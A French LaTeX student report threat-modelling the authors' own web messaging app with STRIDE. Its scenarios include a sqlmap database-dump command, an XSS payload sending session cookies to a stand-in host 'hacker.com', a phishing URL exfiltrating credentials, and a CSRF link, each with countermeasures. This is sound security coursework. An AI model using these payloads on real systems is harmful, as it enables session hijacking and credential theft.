\documentclass[a4paper,10pt]{article}
\usepackage[left=2cm,right=2cm,top=3cm,bottom=2.5cm,headheight=1.5cm]{geometry}
\usepackage[french]{babel}
\usepackage[utf8]{inputenc}
\usepackage{fancyhdr}
\usepackage{setspace}
\usepackage{enumitem,xcolor}
\usepackage{graphicx}
\usepackage{float}
\usepackage{listings}
\usepackage{hyperref}
\usepackage{amsmath}

\title{STI_Projet2_Plancherel_Vallon_rapport}
\author{Plancherel Noemie & Vallon Axel}
\date{27.12.2021}
\setlength\parindent{0pt}

\pagestyle{fancy}
\fancyhf{}
\rhead{Noémie Plancherel \& Axel Vallon}
\lhead{STI 2021}
\rfoot{\center \thepage}
\graphicspath{ {./figures/} }

\definecolor{codegreen}{rgb}{0,0.6,0}
\definecolor{codegray}{rgb}{0.5,0.5,0.5}
\definecolor{codepurple}{rgb}{0.58,0,0.82}
\definecolor{backcolour}{rgb}{0.95,0.95,0.92}

\lstdefinestyle{mystyle}{
    backgroundcolor=\color{backcolour},   
    commentstyle=\color{codegreen},
    keywordstyle=\color{magenta},
    numberstyle=\tiny\color{codegray},
    stringstyle=\color{codepurple},
    basicstyle=\ttfamily\footnotesize,
    breakatwhitespace=false,         
    breaklines=true,                 
    captionpos=b,                    
    keepspaces=true,                                    
    numbersep=5pt,                  
    showspaces=false,                
    showstringspaces=false,
    showtabs=false,     
    tabsize=2
}


\lstset{style=mystyle}

\begin{document}

\renewcommand{\labelitemi}{\textcolor{black}{\textbullet}}

    \begin{titlepage}
    \begin{center}
        \vspace*{6cm}

        \textbf{\Large STI 2021 - Étude de menaces}

        \vspace{0.5cm}
            \Large Projet 2 - Application de messagerie sécurisée
                
        \vspace{0.5cm}
            \normalsize 20 janvier 2022
                
        \vspace{8cm}
        
        \Large Noémie Plancherel \& Axel Vallon
                
    \end{center}
    \end{titlepage}
    
    \tableofcontents
    \newpage
    
    \addcontentsline{toc}{section}{Introduction}
    \section*{Introduction}
    Lors de la première phase du cours STI, pour le projet 1, nous avons dû implémenter une application de messagerie web simple sans aspect sécuritaire. Le but de ce second projet est de reprendre le projet 1 et d'effectuer dans un premier temps une analyse de menaces complètes. En second temps, nous apporterons les aspects sécuritaires manquant à l'application.\\

    Le rapport est structuré en 4 parties distinctes; nous décrirons premièrement le système déjà existant et nous identifierons ces biens, c'est-à-dire les éléments que l'on cherche à protéger. Deuxièmement, nous définirons les sources de menaces de notre application de messagerie. Ensuite, nous établisserons différents scénarios d'attaques en les décrivant au mieux possible. Nous nous aiderons du modèle STRIDE pour le faire. Finalement, nous présenterons les contre-mesures effectuées. 
    \addcontentsline{toc}{section}{Description du système}
    \section*{Description du système}
    \addcontentsline{toc}{subsection}{Objectifs du système}
    \subsection*{Objectifs du système}
    Pour rappel, l’objectif principal de cette application Web consiste en une messagerie avec des utilisateurs connectés. Il est possible de s’y connecter pour rédiger, répondre ainsi que de visualiser des messages. 
    Ainsi, il existe deux rôles différents, collaborateur et administrateur. Le rôle administrateur a accès à des fonctionnalités en plus; il peut gérer les utilisateurs de la messagerie (ajout, modification, suppression).
    Le but étant de garantir la confidentialité des messages échangés ainsi qu’une haute disponibilité du système afin d’avoir une bonne réputation et fiabilité auprès des utilisateurs.
\addcontentsline{toc}{subsection}{Hypothèses de sécurité}
    \subsection*{Hypothèses de sécurité}
    On peut émettre deux hypothèses différentes concernant la sécurité: 
    \begin{onehalfspacing}
    \begin{itemize}
    \item Serveur Web de confiance
    \item Réseau interne et administrateurs de confiance
    \end{itemize}
    \end{onehalfspacing}
    \addcontentsline{toc}{subsection}{Exigences du système}
    \subsection*{Exigences du système}
    Nous allons lister les exigences de sécurité du système: 
    \begin{onehalfspacing}
    \begin{itemize}
    \item \textbf{Contrôle d’accès}: le contenu administratif ne doit seulement être accessible aux administrateurs
    \item \textbf{Contrôle d’accès}: l’utilisateur doit avoir un compte actif pour accéder à la messagerie
    \item \textbf{Authentification}: un message doit être rédigé ou lu par un utilisateur connecté
    \item \textbf{Information fiable}: le contenu doit être protégé en intégrité, non modifiable
    \item \textbf{Confidentialité}: un message doit être uniquement lu par son auteur et destinataire.s
    \item \textbf{Unicité}: le nom d'utilisateur doit être unique
    \item \textbf{Disponibilité}: le site Web doit être disponible à 99\% du temps
    \item \textbf{Privacy}: les informations des utilisateurs doivent être protégées
    \end{itemize}
    \end{onehalfspacing}
    \addcontentsline{toc}{subsection}{Éléments du système}
    \subsection*{Éléments du système}
    Nous pouvons retrouver les éléments suivants dans notre système: 
    \begin{onehalfspacing}
    \begin{itemize}
    \item Base de données des utilisateurs (\textit{avec username, mot de passe, validité du compte et rôle})
    \item Base de données des messages (\textit{avec id, date, auteur, destinataire, sujet et message})
    \item Application Web
    \end{itemize}
    \end{onehalfspacing}
    \addcontentsline{toc}{subsection}{Rôles des utilisateurs}
    \subsection*{Rôles des utilisateurs}
    Comme précisé précédemment, il existe deux rôles différents au sein de l’application:
    \begin{onehalfspacing}
    \begin{itemize}
    \item \textbf{Collaborateur} qui a la possibilité de
    \subitem-- Rédiger un message
    \subitem-- Répondre à un message
    \subitem-- Consulter sa messagerie
    \subitem-- Modifier et supprimer un message
    \subitem-- Modifier son mot de passe
    \item \textbf{Administrateur} qui a la possibilité de
    \subitem-- Effectuer les mêmes fonctionnalités qu’un collaborateur
    \subitem-- Gérer un utilisateur (ajout, modification, suppression)  \\
    \end{itemize}
    \end{onehalfspacing}
    On peut ajouter deux rôles supplémentaires qui pourraient interagir avec le système:
    \begin{onehalfspacing}
    \begin{itemize}
    \item \textbf{Administrateur du système/réseau} qui n’est pas directement inclu dans le système
    \item \textbf{Visiteur anonyme} qui n’a pas la possibilité d’accéder à la messagerie mais il peut se connecter
    \end{itemize}
    \end{onehalfspacing}
    \addcontentsline{toc}{subsection}{Actifs à haute valeur}
    \subsection*{Actifs à haute valeur}
    \begin{onehalfspacing}
    \begin{itemize}
    \item \textbf{Base de données des utilisateurs} (données)
    \subitem-- Confidentialité, sphère privée
    \subitem-- Un incident pourrait nuire à la réputation du site
    \item \textbf{Base de données des messages} (données)
    \subitem-- Confidentialité, sphère privée (uniquement utilisateurs concernés peuvent consulter le message)
    \subitem-- Intégrité (message non modifiable une fois envoyé)
    \subitem-- Un incident pourrait nuire à la réputation du site
    \item \textbf{Infrastructure}
    \subitem-- Intégrité, disponibilité
    \subitem-- \parbox[t]{\linewidth}{Un incident pourrait être critique et nuire à la réputation, disponibilité ainsi qu’à la crédibilité du site Web}
    \end{itemize}
    \end{onehalfspacing}
    \addcontentsline{toc}{subsection}{DFD}
    \subsection*{DFD}
    Afin de bien comprendre les interactions entre les différents rôles du système, nous avons dessiné un DFD (Data Flow Diagram). Les flèches rouges représentent l’interaction avec les utilisateurs externes, les flèches vertes l’interaction avec la partie administration du système et quant au flèches jaunes, elles représentent les interactions du système.
    \begin{figure}[H]
    
\includegraphics[scale=0.3]{DFD.png}
    \centering
    \end{figure}
    \addcontentsline{toc}{subsection}{Périmètre de sécurisation}
    \subsection*{Périmètre de sécurisation}
    La sécurisation de l’application de messagerie se concentrera uniquement à l’applicatif. Ce qui concerne la sécurisation du serveur web (apache, https, …) ou la sécurisation de la machine (os, vm) est exclu du périmètre. 
    \addcontentsline{toc}{section}{Sources de menaces}
    \section*{Sources de menaces}
    Nous allons définir quelques types de menaces possibles. Pour chaque cas, nous allons préciser les motivations, les cibles ainsi que la potentialité de la menace. Les cibles potentielles sont l’application Web de messagerie ainsi que la base de données avec tous les utilisateurs et tous les messages.
    \addcontentsline{toc}{subsection}{Hackers, script-kiddies}
    \subsection*{Hackers, script-kiddies}
    \begin{onehalfspacing}
    \begin{itemize}
     \item \textbf{Motivation}: s’amuser, gagner la gloire
     \item \textbf{Cible}: application web, comptes utilisateurs, messages
     \item \textbf{Potentialité}: haute
    \end{itemize}
    \end{onehalfspacing}
    \addcontentsline{toc}{subsection}{Cybercrime (spam, maliciels)}
    \subsection*{Cybercrime (spam, maliciels)}
    \begin{onehalfspacing}
    \begin{itemize}
     \item \textbf{Motivation}: financières (rançons ou revente de données)
     \item \textbf{Cible}: vol de credentials des utilisateurs, modification d’informations, récupération des messages
     \item \textbf{Potentialité}: moyenne
    \end{itemize}
    \end{onehalfspacing}
    \addcontentsline{toc}{subsection}{Employés / Utilisateurs malins}
    \subsection*{Employés / Utilisateurs malins}
    \begin{onehalfspacing}
    \begin{itemize}
     \item \textbf{Motivation}: accès au compte administrateur
     \item \textbf{Cible}: gestion des utilisateurs (ajout, suppression, modification)
     \item \textbf{Potentialité}: moyenne
    \end{itemize}
    \end{onehalfspacing}
    \addcontentsline{toc}{subsection}{Concurrents}
    \subsection*{Concurrents}
    \begin{onehalfspacing}
    \begin{itemize}
     \item \textbf{Motivation}: espionnage industriel
     \item \textbf{Cible}: récupération des messages des utilisateurs
     \item \textbf{Potentialité}: moyenne
    \end{itemize}
    \end{onehalfspacing}
    \addcontentsline{toc}{section}{Scénarios d'attaques}
    \section*{Scénarios d'attaques}
    \addcontentsline{toc}{subsection}{Scénario de menace 1: Deviner des mots de passe}
    \subsection*{Scénario de menace 1: Deviner des mots de passe}
        \paragraph{Impact sur l'entreprise} Haut
        \paragraph{Source de menace} Hacker, Cybercrime, Employé, Concurrent
        \paragraph{Motivation} Pour les hackers, l'attaque peut être vue comme un amusement ou un défi personnel. Pour les concurrents ou un cybercrime, le but principal serait d’avoir accès à l’application de messagerie. Pour un employé, ce serait de se faire passer pour quelqu’un d’autre de l’entreprise, de lire les messages ou d’utiliser des fonctionnalités d’administrateur
        \paragraph{Actif ciblé} Utilisateurs (credentials)
        \paragraph{Scénarios d'attaque} On peut tenter de deviner des mots de passe en les séléctionnant des manières suivantes:
        \begin{onehalfspacing}
        \begin{enumerate}
        \item des valeurs par défaut lors de la création d'une application web avec authentification
        \item des valeurs fréquemment utilisées dans la langue de l'application (dictionnaire)
        \item des valeurs pouvant être devinées si on connaît personnellement l'utilisateur  \\
        \end{enumerate}
        \end{onehalfspacing}
        Pour la première attaque, on peut tester les mots de passe
        \begin{enumerate}
        \item[] \verb|root|
        \item[] \verb|admin|
        \item[] \verb|1234|
        \item[] \verb|password|
        \item[] \verb|username| (nom de l'utilisateur) \\
        \end{enumerate}
        Pour la seconde attaque, on peut regarder dans les dictionnaires des langues avec les mots de passe fréquemment utilisés (par exemple \verb|rockyou.txt| pour la langue anglaise). Pour une application web en français, on peut utiliser ce dictionnaire \url{https://github.com/tarraschk/richelieu}. \\
        
        Finalement, pour la dernière attaque, on peut deviner les mots de passe d'un utilisateur qu'on pourrait connaître personnellement. Dans ce cas, on peut tester sa date de naissance, son prénom, sa ville d'habitation, ses animaux, etc...
        \paragraph{Contre-mesures} Nous constatons que dans la situation actuelle, lorsqu'un utilisateur veut modifier son mot de passe ou que l'administrateur crée un compte utilisateur, il n'y a aucun critère obligatoire, donc il est possible de configurer des mots de passe très simples et facilement devinables. \\
        
        Pour contrer cela, on peut demander de respecter des conditions pour que le mot de passe soit fort. Les conditions peuvent être: minimum de 8 caractères, d'un nombre, d'un caractère spécial. On peut également générer un mot de passe aléatoire fort (avec 18 caractères alphanumériques) lorsque l'administrateur crée un compte pour un collaborateur et le mot de passe lui serait communiqué de manière sécurisée par la suite.
        \addcontentsline{toc}{subsection}{Scénario de menace 2: Vol de base de données (injection SQL)}
    \subsection*{Scénario de menace 2: Vol de base de données (injection SQL)}
        \paragraph{Impact sur l'entreprise} Haut
        \paragraph{Source de menace} Hacker, Cybercrime, Concurrent
        \paragraph{Motivation} La motivation principale de la récupération de données, sensibles ou non, de la base de données, est financière
        \paragraph{Actif ciblé} Base de données des utilisateurs et des messages
        \paragraph{Scénario d'attaque} Étant donné que la base de données n’est pas directement retournée au formulaire, car il permet uniquement la vérification de l’authentification, on peut utiliser l’outil \verb|sqlmap| qui permet d’effectuer des injections SQL. Il permet d’identifier puis exploiter une injection SQL sur des applications web. \\
        
        On peut premièrement vérifier sur le code source de la page web, quels sont les champs du formulaire qui sont envoyés en POST et depuis quelle page. Une fois cela vérifié, on exécute l’outil \verb|sqlmap| avec les paramètres suivants:
        
        \begin{onehalfspacing}
        \begin{itemize}
        \item[] \verb|--url|: URL cible pour tester les injections
        \item[] \verb|--data|: données qui doivent être envoyées dans la requête POST
        \item[] \verb|--dbms|:  précise le type de base de données utilisée
        \item[] \verb|--risk|: différents risques d’attaques. Ci-dessous le risque 3 effectue des attaques lourdes
        \item[] \verb|--level|: différents niveaux d’attaques. Ci-dessous le niveau 5 effectue des attaques lourdes
        \item[] \verb|--dump-all|: extraire les données de la DB \\
        \end{itemize}
        \end{onehalfspacing}
        En exécutant la commande suivante, il est possible de récupérer toutes les données de la base de données de l'application web.
        \begin{lstlisting}[language=bash]
python2 sqlmap.py --url=http://localhost:8080/verificationLogin.php --data="inputLogin=111&inputPassword=222" --dbms=SQLite --risk=3 --level=5 --dump-all
\end{lstlisting}
        \paragraph{Contre-mesures}
        Afin d'éviter les injections SQL, on peut ajouter ces mesures:
        \begin{onehalfspacing}
        \begin{itemize}
        \item Préparer les requêtes SQL:
        \begin{lstlisting}[language=php]
$sql = "SELECT username FROM users";
$query = $pdo->prepare($sql);
$query->execute();
\end{lstlisting}
        \item Contrôler les entrées utilisateurs sur les formulaires (aussi pour les formulaires de connexion)
        \item Ajouter des privilèges sur la base de données (principe de moindre privilège) en ajoutant des rôles pour les comptes.
        \item Hasher les mots de passe stockés en base de données afin d'éviter que l'attaquant exploite la vulnérabilité.
        \end{itemize}
        \end{onehalfspacing}
        \addcontentsline{toc}{subsection}{Scénario de menace 3: Bruteforce de mots de passe}
    \subsection*{Scénario de menace 3: Bruteforce de mots de passe}
        \paragraph{Impact sur l'entreprise} Haut
        \paragraph{Source de menace} Hacker, Cybercrime, Employé, Concurrent
        \paragraph{Motivation}  Pour les hackers, l'attaque peut être vue comme un amusement ou un défi personnel. Pour les concurrents ou un cybercrime, le but premier serait d’avoir accès à l’application de messagerie. Pour un employé, ce serait de se faire passer pour quelqu’un d’autre de l’entreprise, de lire les messages ou d’utiliser des fonctionnalités d’administrateur
        \paragraph{Actif ciblé} Utilisateurs (credentials)
        \paragraph{Scénario d'attaque}
        Pour effectuer un bruteforce sur les mots de passe, on peut utiliser des outils qui existent déjà avec des dictionnaires qui permettent de tester des milliers de combinaisons différentes. Sachant que le nombre de tentatives du mot de passe est illimité, il est possible d'effectuer plusieurs requêtes différentes. \\
        
        Cette attaque peut prendre du temps en fonction de la complexité et la longueur des mots de passe des utilisateurs de l'application.
        \paragraph{Contre-mesures}
        On peut contrer cette attaque en ajoutant un maximum de tentive de mots de passe par adresse IP. On peut aussi ajouter des mots de passe forts aux comptes utilisateurs (voir \textit{Scénario 1}).
        \addcontentsline{toc}{subsection}{Scénario de menace 4: Vol de mots de passe (interception)}
    \subsection*{Scénario de menace 4: Vol de mots de passe (interception)}
        \paragraph{Impact sur l'entreprise} Haut
        \paragraph{Source de menace} Employé (ou quelqu’un qui aurait accès au réseau interne de l’entreprise)
        \paragraph{Motivation} Le but peut être de se faire passer pour quelqu’un d’autre de l’entreprise, de lire de les messages ou d’utiliser les fonctionnalités d’administrateur
        \paragraph{Actif ciblé} Utilisateurs (credentials)
        \paragraph{Scénario d'attaque} On peut effectuer l’attaque en utilisant un sniffer de réseau comme Wireshark. Si le protocole utilisé est HTTP, les identifiants de l’utilisateur sont envoyés en clair sur le réseau et il est possible de capturer la trame.
        \begin{figure}[H]
        
\includegraphics[scale=0.35]{scenario4_1.png}
        \centering
        \end{figure}
        \paragraph{Contre-mesures}
         Pour éviter une attaque de type \textit{Man in the middle}, il est nécessaire d'ajouter SSL/TLS à l'application web afin de chiffrer le trafic et d'éviter l'utilisation du protocole HTTP.
         \addcontentsline{toc}{subsection}{Scénario de menace 5: Vol de session}
    \subsection*{Scénario de menace 5: Vol de session}
        \paragraph{Impact sur l'entreprise} Haut
        \paragraph{Source de menace} Hackers, Concurrent, Employé (avec des compétences avancées)
        \paragraph{Motivation} Pour un hacker, cela peut être pour un défi personnel ou un amusement. Pour un concurrent cela pourrait être pour avoir des accès administrateurs et accéder aux messages afin de les lire. Finalement, pour un utilisateur, le but principal serait de se faire passer pour quelqu'un d'autre.
        \paragraph{Actif ciblé} Utilisateurs, fonctionnalités avancées d'un administrateur, messages
        \paragraph{Scénario d'attaque} Cette attaque demande à l'attaquant d'être authentifié au préalable sur l'application. \\
        
        L'attaque exploite une vulnérabilité XSS qui permet de récupérer le cookie de session d'un utilisateur. Ainsi, pour ce scénario, nous allons montrer comment il est possible de récupérer le cookie de session de l'administrateur. Nous précisons que cette attaque ne fonctionne seulement si le site est vulnérables aux attaques XSS et n'a aucune protection contre ces dernières. \\
        
        Il est possible de le vérifier en envoyant un message à un utilisateur avec une injection HTML dans le contenu du message (pas très discret):
        \begin{lstlisting}[language=html]
<script>alert('Hi!');</script>
\end{lstlisting} 

        À présent, on peut récupérer le cookie de session de l'administrateur à l'aide de l'objet \verb|location.cookie| et on va le rediriger sur une URL de l'attaquant à l'aide de l'objet DOM \verb|document.location|. On ajoute l'injection HTML dans le message qu'on envoie à l'administrateur:
                \begin{lstlisting}[language=html]
<script>document.location="http://hacker.com/cookiestealer.php?cookie="document.cookie;</script>
\end{lstlisting} 
Dès que l'administrateur ouvre le message, il va directement faire une requête sur le site de l'attaquant avec sa session:
        \begin{lstlisting}[language=html]
http://hacker.com/cookiestealer.php?cookie=PHPSESSID=riqbmmcaclh148j631uinq8375
\end{lstlisting} 
L'attaquant peut récupérer l'id de session et le remplacer avec sa session actuelle. Ainsi, il pourra s'authentifier sur le compte administrateur.

        \paragraph{Contre-mesures} 
        Afin d'éviter des attaques XSS, on peut ajouter des sanitizers. On peut également échapper les caractères du contenu du message avant de l'afficher sur l'application web. Finalement, on peut régénérer les id de session régulièrement afin d'éviter tout vol de session (on peut ajouter un timeout de validité).
        \addcontentsline{toc}{subsection}{Scénario de menace 6: Denial Of Service (DOS)}
    \subsection*{Scénario de menace 6: Denial Of Service (DOS)}
        \paragraph{Impact sur l'entreprise} Moyen à haut (indisponibilité du service de messagerie)
        \paragraph{Source de menace} Hackers, Concurrent, Employé (avec des compétences avancées)
        \paragraph{Motivation} Cela pourrait être pour une vengeance personnelle ou simplement afin d'empêcher l'utilisation du système en le rendant indisponible.
        \paragraph{Actif ciblé} Système entier
        \paragraph{Scénario d'attaque} On peut utiliser à nouveau une injection HTML/Javascript dans un message afin d'envoyer en boucle infinie de requêtes au serveur à tous les utilisateurs du système. Ainsi, lorsqu'un utilisateur ouvre le message, le script est exécuté et le serveur surchargé.
        \paragraph{Contre-mesures} Pour éviter une attaque de type DOS, on peut ajouter des sanitizers dans le code. On peut également contrôler les champs d'entrées utilisateurs des messages afin d'éviter des injections de code.
        \addcontentsline{toc}{subsection}{Scénario de menace 7: Suppression d'un utilisateur (CSRF)}
    \subsection*{Scénario de menace 7: Suppression d'un utilisateur (CSRF)}
        \paragraph{Impact sur l'entreprise} Moyen
        \paragraph{Source de menace} Hacker, Concurrent
        \paragraph{Motivation} Pour un hacker cela peut être un challenge personnel ou un amusement. Pour un concurrent, cela lui permettrait d'avoir un certain accès au système.
        \paragraph{Actif ciblé} Utilisateurs
        \paragraph{Scénario d'attaque} La première étape de l'attaque est de pouvoir visualiser les différentes pages (fichiers php) qui se trouvent sur l'application web. Il existe plusieurs manières de la faire. On peut soit utiliser des outils de \textit{bruteforce} d'URLs tels que \verb|ZAP|, proposé par OWASP qui inclut \verb|dirsearch|, ou \verb|gobuster|. \\ 
        
        Sinon, il est également possible d'accéder à la liste des différentes ressources en testant directement d'ajouter des répertoires dans l'URL comme par exemple: \\
        
        \verb|http://localhost:8080/includes| \\
        \verb|http://localhost:8080/views| \\
        
        Les deux exemples ci-dessus sont des répertoires fréquemment utilisés dans des applications web. \\
        
        La seconde étape est de se focaliser sur une ressource que l'on souhaite utiliser pour effectuer notre attaque. Dans ce scénario, nous cherchons à supprimer un compte utilisateur. Ainsi, nous pouvons chercher \verb|deleteUser.php| ou \verb|delete_user.php|. \\
        
        À présent, nous constatons que la ressource prend en paramètres l'id d'un utilisateur à supprimer. Afin de trouver l'id correspondant, on peut regarder le code source la page où se trouvent tous les messages reçus et on pourra trouver l'id utilisé pour effectuer les requêtes. Dans notre cas, l'id est le nom de l'utilisateur. \\
        
        Finalement, nous pouvons préparer notre requête forgée:
                \begin{lstlisting}[language=html]
http://localhost:8080/delete_user?id=user4
\end{lstlisting} 

Et nous envoyons à la victime un message avec la requête ci-dessus afin de l'inciter à cliquer sur le lien et à supprimer l'utilisateur en paramètres.
        
        \paragraph{Contre-mesures} La première contre-mesure à prendre serait de contrôler les accès aux ressources, afin d'éviter que des utilisateurs qui n'ont pas l'autorisation puissent accéder aux listes de fichiers. On peut également ajouter des tokens anti-CSRF aux formulaires des messages.
        \addcontentsline{toc}{subsection}{Scénario de menace 8: Phishing}
    \subsection*{Scénario de menace 8: Phishing}
        \paragraph{Impact sur l'entreprise} Moyen
        \paragraph{Source de menace} Hacker, Cybercrime, Concurrent
        \paragraph{Motivation} La motivation principal serait d'avoir accès au système.
        \paragraph{Actif ciblé} Utilisateurs (credentials)
        \paragraph{Scénario d'attaque} On peut directement injecter du code dans un message envoyé à plusieurs victimes qui permettra d'afficher une fenêtre avec un formulaire à l'intérieur. Le formulaire demande aux utilisateurs d'entrer leurs informations personnelles tels que leurs identifiants (username + mot de passe). Une fois le formulaire validé, les informations sont envoyées à une URL de l'attaquant. La requête se présente ainsi:
                        \begin{lstlisting}[language=html]
http://hacker.com/phishing.php?name=user3&password=12345
\end{lstlisting} 
        \paragraph{Contre-mesures} On peut contrôler les champs d'entrées utilisateurs d'un message (sujet + corps) afin d'éviter des insertions de code. Une aure contre-mesure pourrait être de la prévention sur le phishing pour les collaborateurs qui utilisent l'application web.
        \addcontentsline{toc}{subsection}{STRIDE}
    \subsection*{STRIDE}
    Nous nous sommes basés sur le modèle STRIDE afin d'établir les scénarios ci-dessus. Nous avons premièrement représenté les différentes menaces auxquelles l'application web pourrait être vulnérable:
    
\begin{center}
\begin{tabular}{|l c c c c c c|} 
 \hline
 Composant & S & T & R & I & D & E \\ [0.5ex] 
 \hline\hline
 Collaborateur & $\times$ & & $\times$ & & & $\times$\\
 \hline
 Administrateur & $\times$ & & $\times$ & & & $\times$ \\
 \hline
 Messages (DB) & & $\times$ & $\times$ & $\times$ &  & $\times$ \\
 \hline
 Utilisateurs (DB) & $\times$ & $\times$ & $\times$ & $\times$ &  & $\times$\\ 
 \hline
 Messagerie STI (App) & $\times$ & $\times$ &  &  & $\times$ & \\ 
 \hline
 Rédaction, lecture, réponse, suppression & & & & $\times$ & $\times$ & $\times$\\
 \hline
 Gestion utilisateurs & $\times$ & & & & & $\times$ \\ 
 \hline
 Incscription, connexion, changement de mot de passe & $\times$ & & $\times$ & & & $\times$\\  
 \hline
\end{tabular}
\end{center}
    
    Nous avons ensuite listé les différentes scénarios d'attaque en fonction du modèle STRIDE:
    \addcontentsline{toc}{subsubsection}{Spoofing}
    \subsubsection*{Spoofing}
    \begin{onehalfspacing}
    \begin{itemize}
     \item Scénario 1: Deviner des mots de passe
     \item Scénario 3: Bruteforce de mots de passe
     \item Scénario 4: Vol de mots de passe (interception)
     \item Scénario 5: Vol de session
    \end{itemize}
    \end{onehalfspacing}
    \addcontentsline{toc}{subsubsection}{Tampering}
    \subsubsection*{Tampering}
    \begin{onehalfspacing}
    \begin{itemize}
     \item Scénario 2: Vol de base de données (injection SQL)
     \item Scénario 7: Suppression d'un utilisateur (CSRF)
    \end{itemize}
    \end{onehalfspacing}
    \addcontentsline{toc}{subsubsection}{Repudiation}
    \subsubsection*{Repudiation}
     Nous n'avons pas implémenté d'attaque dans cette catégorie.
     \addcontentsline{toc}{subsubsection}{Information disclosure}
    \subsubsection*{Information disclosure}
    \begin{onehalfspacing}
    \begin{itemize}
     \item Scénario 4: Vol de mots de passe (interception)
     \item Scénario 8: Phishing
    \end{itemize}
    \end{onehalfspacing}
    \addcontentsline{toc}{subsubsection}{Denial of service}
    \subsubsection*{Denial of service}
    \begin{onehalfspacing}
    \begin{itemize}
     \item Scénario 6: Denial Of Service (DOS)
    \end{itemize}
    \end{onehalfspacing}
    \addcontentsline{toc}{subsubsection}{Elevation of privileges}
    \subsubsection*{Elevation of privileges}
    \begin{onehalfspacing}
    \begin{itemize}
     \item Scénario 5: Vol de session
     \item Scénario 7: Suppression d'un utilisateur (CSRF)
    \end{itemize}
    \end{onehalfspacing}
    \addcontentsline{toc}{section}{Contre-mesures}
    \section*{Contre-mesures}    
    
    Ainsi, nous avons implémenté des contre-mesures afin de rendre l'infrastructure sécurisée et d'éviter des attaques, comme celles présentées au chapitre précédent (c.f. \textit{Scénarios d'attaque}).
    \addcontentsline{toc}{subsection}{Authentification}
    \subsection*{Authentification}
